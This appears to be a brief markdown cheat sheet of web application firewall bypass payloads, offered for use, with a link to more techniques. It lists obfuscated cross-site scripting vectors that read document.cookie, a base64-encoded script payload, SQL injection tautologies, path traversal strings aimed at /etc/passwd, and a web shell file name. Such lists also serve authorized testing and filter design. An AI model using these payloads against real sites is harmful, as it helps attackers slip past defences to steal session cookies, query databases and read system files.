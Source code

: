 The following are the simple payloads that can be used to bypass WAFs. Additionally, we may refer to this [cheat sheet](https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/) for other techniques. 
> Note: Since these are pretty common, this may not work 100% of the time.
## Cross-Site Scripting
- `prompt('xss')`
- `prompt(8)`
- `confirm('xss')`
- `confirm(8)`
- `alert(/xss/.source)`
- `window[/alert/.source](8)`
- `with(document)alert(cookie)`
- `alert(document['cookie'])`
- `alert(document[/cookie/.source])`
- `alert(document[/coo/.source+kie/.source])`
- `<svg/onload=alert(1)>`
- `<video src=x onerror=alert(1);>`
- `<audio src=x onerror=alert(1);>`
- `javascript:alert(document.cookie)`
- `data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`
## SQL Injection UNION
- `UNION ALL SELECT`
## Blind SQL Injection
- `' or 6=6`
- `' or 0x47=0x47`
- `or char(32)=''`
- `or 6 is not null`
## Directory Traversal
- `/too/../etc/far/../passwd`
- `/etc//passwd`
- `/etc/ignore/../passwd`
- `/etc/passwd.......`
## Web Shell
- `augh.php`